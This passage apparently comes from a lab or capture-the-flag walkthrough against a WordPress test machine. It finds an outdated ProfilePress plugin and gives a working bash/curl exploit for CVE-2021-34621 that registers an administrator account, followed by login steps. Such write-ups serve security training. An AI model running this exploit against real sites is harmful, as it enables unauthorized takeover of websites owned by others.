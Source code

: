 One of the outdated plugins grabs our attention: wp-user-avatar. According to the scanner, current version on the server is 3.1.3 and the update one would be 4.3.0. A search in google returns:
+ https://www.exploit-db.com/exploits/50242
+ https://www.cybersecurity-help.cz/vdb/SB2021081401


## 8. Exploit [CVE-2021-34621](https://www.exploit-db.com/exploits/50242)

This exploit [CVE-2021-34621](https://www.exploit-db.com/exploits/50242) is a very simple bash code that requires a basic level of bash understanding. It’s not yet available on metasploit database, which means you will have to understand it in order to execute it. 
Basically it helps you to create an admin user in the wordpress installation. 

In the attacker machine, creates a script.sh file with this content:

```bash 
#!/bin/bash
# Exploit for WordPress Plugin ProfilePress 3.0 - 3.1.3 
# Change the name and password as per your requirement.

URL=$1

curl -X POST $URL"/wp-admin/admin-ajax.php" \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -d "reg_username=admin" \
 -d "reg_email=pwned@mujerorquesta.com" \
 -d "reg_password=admin" \
 -d "reg_password_present=true" \
 -d "wp_capabilities[administrator]=1" \
 -d "reg_first_name=pwned" \
 -d "reg_last_name=lalala" \
 -d "action=pp_ajax_signup"
```

After editing the file, add permissions to execute:

```bash
chmod +x script.sh
```

And run it:

```bash
./script.sh http://192.168.57.3/womenhackers
```

This will create an "admin" user in the wordpress CMS.

## 9. Access as admin

Go to http://192.168.57.3/womenhackers/wp-admin and access the pannel with 
+ user: admin
+ password: admin

If you have defined different user and password credentials, use them instead of these.
